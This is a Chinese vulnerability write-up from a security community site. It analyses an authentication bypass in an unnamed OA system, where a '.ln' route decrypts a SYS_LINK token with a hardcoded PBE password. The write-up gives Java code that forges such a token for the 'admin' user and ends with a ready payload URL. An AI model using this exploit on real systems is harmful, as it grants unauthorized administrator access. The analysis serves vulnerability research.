










# 奇安信攻防社区-某oa登录绕过分析

### 某oa登录绕过分析

本文会先从正常登录逻辑分析，从而找到该系统认证的过程和方式，进而搜索相关接口找到其他登录接口，进而利用漏洞绕过登录

本文会先从正常登录逻辑分析，从而找到该系统认证的过程和方式，进而搜索相关接口找到其他登录接口，进而利用漏洞绕过登录

# 0x01 正常登录逻辑分析

首先先来看正常的登录流程，我们输入用户名和密码，然后抓包



可以看到请求了`/login/login_valid.jsp`，然后找对对应的文件



可以看到这里取了post发送的数据，并调用`userLoginService.login`方法返回一个Map对象，返回有关登录结果或其他信息的键值对，所以这个对象就是处理登录的逻辑，我们继续跟进这个方法。



在`userLoginService.login`方法中，可以看到他继续调用了`loginByRequest`方法



在`loginByRequest`中就是一般登陆验证的正常操作，将userName和password带入`userLogic.getUser`中进行验证，这里会通过sql语句进行查询判断，如果验证成功则会设置对应的cookie，之后不做过多赘述。

# 0x02 寻找漏洞

经过观察和分析，发现从这里是不好下手的，各种验证措施也比较完善，所以我们从其他地方下手。

这里我们打开这个类的的结构，查看其中所有的方法，我们发现登录方式不止可以通过`loginByRequest`，还有其他的方法：



通过传入的参数和方法名可以推断出该系统有4中登录认证方式：分别是通过域登录(loginByAD)，统一身份认证登录(loginByCas)，用户名密码普通登录(loginByRequest)以及直接通过用户名登录(loginByUserName)

其中通过域登录由于无法获取域账户而首先放弃研究，所以主要看统一身份认证登录(loginByCas)是怎样实现的


可以看到loginByCas最后还是调用的loginByUserName



在loginByUserName也是直接通过判断用户名是否在数据库中，如果存在，后续的操作和前面loginByRequest的流程一样。

所以接下来的思路就是寻找直接调用了`loginByUserName`或`loginByCas`的地方，这里使用jadx-gui进行搜索，因为idea不支持直接搜索jar包中的代码内容，当然也可以将jar包反编译后进行搜索。


这里搜索到`loginByUserName`的调用方法只有在刚刚那几个方法中，没啥用处


搜索`loginByCas`调用的方法就多了，这里我找了上方红框中的一个点，在`ControllerFilter`中的`doFilter`方法中。(另外其他接口也可以造成登录绕过，有兴趣的师傅可以自己动手分析)


经过对代码分析，发现要触发这里的`loginByCas`方法需要url以`.ln`结尾，然后从`SYS_LINK`参数中取到的值，并使用 `SYS_LINK` 的值获取一个 `LinkMeta` 对象，然后从 `LinkMeta` 中获取用户对象，最后将获取的用户名带入到`loginByCas`中进行登录。这里的`SYS_LINK`可控，所以主要看`LinkUtil.getLinkMeta`方法中的处理逻辑。


在`getLinkMeta`中，这里首先对传入的值进行hex解码，使用`EncrypUtil.decrypt`进行解密，然后以`||`进行分割，分割的三个值分别为跳转的日期，时间，用户名。

所以这里如果我们构造参数为`/servlet/main||2024-01-01||admin`，就可以使得分割后第三个元素被`setUser`，进而传递到下面作为`loginByCas`从而进行的登录，注意时间要在当前的时间之后，因为在`doFilter`会对时间做校验。

接下来看一下他的加密方法




可以看到这里的加密方法是`PBEWithMD5AndDES`，并且知道密码是`123456`

> PBE（Password Based Encryption，基于口令加密）算法是一种基于口令的加密算法，其特点在于口令是由用户自己掌握的，采用随机数杂凑多重加密等方法保证数据的安全性, PBE算法没有密钥的概念，密钥在其它对称加密算法中是经过算法计算得出来的，PBE算法则是使用口令替代了密钥。

所以我们只需要调用他的加密方法即可：

```java
import org.jasypt.util.text.BasicTextEncryptor;

import java.io.UnsupportedEncodingException;
import java.math.BigInteger;
import java.nio.charset.StandardCharsets;

public class EncrypUtil {
    public static String password = "123456";
    public static Boolean stringOutputTypeBase64 = false;

    public static String encrypt(String text) {
        BasicTextEncryptor textEncryptor = new BasicTextEncryptor();
        textEncryptor.setPassword(password);
        String myEncryptedText = textEncryptor.encrypt(text);
        return myEncryptedText;
    }

    public static String decrypt(String text) {
        BasicTextEncryptor textEncryptor = new BasicTextEncryptor();
        textEncryptor.setPassword(password);
        String plainText = textEncryptor.decrypt(text);
        return plainText;
    }
    private static String bytesToHex(byte[] bytes) {
        BigInteger bigInt = new BigInteger(1, bytes);
        return bigInt.toString(16);
    }

    public static void main(String[] args) throws UnsupportedEncodingException {
        String result = encrypt("/servlet/main||2024-01-01||admin");
        System.out.println("encrypt String: " +result);
        byte[] bytes = result.getBytes(StandardCharsets.UTF_8);
        String hexEncodedString = bytesToHex(bytes);
        System.out.println("Hex Encoded String: " + hexEncodedString);
    }
}
```



（这里注意如果你运行的结果和我的不一样也是没问题的，因为该算法每次加密后的结果都不一样）

构造完payload就要找到如何可以触发，由于这段代码在`doFilter`中，所以我们可以首先在`web.xml`中搜索他哪些路由会经过该过滤器，经过搜索发现以下url后缀中的路由都会经过该过滤器，正好包括`.ln`结尾的路由。


# 0x03 漏洞复现

所以最后我们构造的payload为：

```php
/1.ln?SYS_LINK=736a356b37475635563576783561796242424c31554c4c6c6a585767516b757338386178663935616f59626e584b65503051462b2b4155335535547a41684734
```




